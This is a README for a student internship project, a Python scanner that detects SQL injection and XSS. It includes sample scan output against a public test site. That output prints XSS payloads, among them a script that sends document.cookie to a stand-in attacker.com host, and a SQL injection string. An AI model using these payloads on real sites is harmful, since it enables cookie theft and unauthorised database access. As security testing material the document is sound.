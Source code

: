 # CODTECH_ADVANCED_TASK_2
# Web Vulnerability Scanner

## Personal information 
- Name : Premkumar Soni
- Company : CODTECH IT SOLUTIONS PVT.LTD
- ID : CT08DBS
- Domain : Cyber Security & Ethical Hacking
- Duration: 20th Dec 2024 To 20th Jan 2025
- Mentor : Neela Santhosh kumar

## Overview

This is a simple Python-based tool designed to scan websites for common vulnerabilities, including SQL injection and Cross-Site Scripting (XSS). The tool uses various techniques to detect these vulnerabilities and generates a detailed report. It utilizes the `requests`, `BeautifulSoup`, and `pyfiglet` libraries for web scraping and logging purposes.

## Features

- **SQL Injection Detection**: Identifies SQL injection vulnerabilities by testing various SQL payloads in URL parameters.
- **Cross-Site Scripting (XSS) Detection**: Detects both reflected and stored XSS vulnerabilities by injecting common XSS payloads.
- **Form Scanning**: Scans HTML forms for potential XSS vulnerabilities.
- **Multi-Page Scanning**: The scanner follows links within the same domain to detect vulnerabilities across multiple pages.
- **Logging and Reporting**: Generates a detailed vulnerability report, including the type, severity, and evidence for each identified vulnerability.

## Installation

#### 1. Clone The repository : 

```bash 
git clone https://github.com/hipremsoni/CODTECH_ADVANCED_TASK_2.git
cd CODTECH_ADVANCED_TASK_2
```

#### 2. Install the required Python packages using `pip` :

```bash 
pip install -r requirements.txt 
```

#### 3. Run The Tool :
```bash 
python3 scan.py 
```

### Prerequisites

- Python 3.x
- Pip (Python package installer)

The `requirements.txt` file should include:

```text
requests
beautifulsoup4
pyfiglet
colorama
```

## Usage

### Running the Scanner

1. Run the script:

```bash
python web_vuln_scanner.py
```

2. You will be prompted to enter the target website URL (e.g., `http://example.com`).

3. The scanner will analyze the website and its links, testing for common vulnerabilities such as SQL injection and XSS.

4. After the scan completes, a detailed report will be displayed on the terminal.

### Example

![alt text](image-1.png)
![alt text](image-2.png)

```bash
__        __   _      __     __     _       
\ \      / /__| |__   \ \   / /   _| |_ __
 \ \ /\ / / _ \ '_ \   \ \ / / | | | | '_ \
  \ V  V /  __/ |_) |   \ V /| |_| | | | | |
   \_/\_/ \___|_.__/     \_/  \__,_|_|_| |_|

 ____
/ ___|  ___ __ _ _ __  _ __   ___ _ __
\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 ___) | (_| (_| | | | | | | |  __/ |
|____/ \___\__,_|_| |_|_| |_|\___|_|


- Created by Premkumar Soni
Welcome to the Web Application Vulnerability Scanner!

Enter the target website URL (e.g., http://example.com): http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com/privacy.php
2025-01-15 11:18:28,918 - ERROR - Error scanning http://testphp.vulnweb.com/privacy.php: 404 Client Error: Not Found for url: http://testphp.vulnweb.com/privacy.php
[Scanning] http://testphp.vulnweb.com/guestbook.php
[Scanning] http://testphp.vulnweb.com/userinfo.php
[Scanning] http://testphp.vulnweb.com/disclaimer.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/
[Scanning] http://testphp.vulnweb.com/categories.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/
[Scanning] http://testphp.vulnweb.com/login.php
[Scanning] http://testphp.vulnweb.com/listproducts.php?cat=2
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
[SQL Injection Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1

 ____                    ____                       _
/ ___|  ___ __ _ _ __   |  _ \ ___ _ __   ___  _ __| |_
\___ \ / __/ _` | '_ \  | |_) / _ \ '_ \ / _ \| '__| __|
 ___) | (_| (_| | | | | |  _ <  __/ |_) | (_) | |  | |_
|____/ \___\__,_|_| |_| |_| \_\___| .__/ \___/|_|   \__|
                                  |_|

Target: http://testphp.vulnweb.com
Scan Date: 2025-01-15T11:18:48.820498
Pages Scanned: 10

Vulnerabilities Found:

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
---

Type: SQL Injection
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: Critical
Description: SQL Injection vulnerability detected.
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1
```

## Acknowledgements

- `requests` for making HTTP requests.
- `BeautifulSoup` for parsing HTML.
- `pyfiglet` for generating ASCII art.
- `colorama` for adding color to terminal output.

---

### Notes

- The tool is intended for educational purposes only. Use it responsibly and only on websites you own or have explicit permission to test.
- This tool is a basic implementation of a web vulnerability scanner and can be extended with additional vulnerability detection techniques.

---
## Author 
- Premkumar soni


